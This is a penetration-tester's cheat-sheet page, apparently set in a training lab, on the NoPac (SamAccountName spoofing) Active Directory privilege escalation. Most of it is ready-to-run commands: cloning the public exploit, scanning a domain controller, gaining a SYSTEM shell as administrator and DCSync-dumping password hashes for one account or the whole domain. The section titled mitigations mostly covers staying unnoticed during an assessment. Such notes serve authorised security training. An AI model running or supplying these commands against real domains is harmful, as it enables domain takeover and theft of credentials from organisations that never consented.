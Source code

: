 ```yaml
---
title: NoPac (SamAccountName Spoofing)
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - privilege
---
```


## 🪤 NoPac (SamAccountName Spoofing)

!!! tips "Detailed explanations"
	- [noPac: A Tale of Two Vulnerabilities That Could End in Ransomware](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware).
	- [SAM Name impersonation](https://techcommunity.microsoft.com/users/daniel%20naim/164126).

This vulnerability encompasses two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command.

| 42278                                                                      | 42287                                                                                         |
| -------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `42278` is a bypass vulnerability with the Security Account Manager (SAM). | `42287` is a vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS. |

```bash
# Ensuring Impacket is Installed
git clone https://github.com/SecureAuthCorp/impacket.git

python setup.py install 

# Cloning the NoPac Exploit Repo
git clone https://github.com/Ridter/noPac.git
```

Once Impacket is installed and we ensure the repo is cloned to our attack box, we can use the scripts in the NoPac directory to check if the system is vulnerable using a scanner (scanner.py) then use the exploit (noPac.py) to gain a shell as NT AUTHORITY/SYSTEM. 


```bash
# First we will scan:
sudo python3 scanner.py $domain/$userSamAccounName:$password -dc-ip $domainControllerIP -use-ldap
# Example:
# sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```

We will obtain the `ms-DS-MachineAccountQuota` number. If it is set to 0, the attack will not work.

```bash
# Running NoPac & Getting a semi-interactive shell session  using smbexec.py -https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py. This could be "noisy" or may be blocked by AV or EDR.
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname -shell --impersonate $userAdmin -use-ldap
# Example: 
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

Important: It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run (We can use `ls` to confirm).

```bash
# We could then use the cache file to perform a pass-the-ticket and perform further attacks such as DCSync.  Using noPac to DCSync the Built-in Administrator Account
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname --impersonate $userAdmin -use-ldap -dump -just-dc-user $domain/$userAdmin
# Example:
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

# We can also dump all
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname --impersonate $userAdmin -use-ldap -dump -just-dc
# Example:
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc
```

### Mitigations

**If opsec or being "quiet" is a consideration during an assessment, we would most likely want to avoid a tool like smbexec.py.**

If Windows Defender (or another AV or EDR product) is enabled on a target, our shell session may be established, but issuing any commands will likely fail. 

The first thing smbexec.py does is create a service called `BTOBTO`. Another service called `BTOBO` is created, and any command we type is sent to the target over SMB inside a .bat file called `execute.bat`. With each new command we type, a new batch script is created and echoed to a temporary file that executes said script and deletes it from the system. Let's look at a Windows Defender log to see what behavior was considered malicious.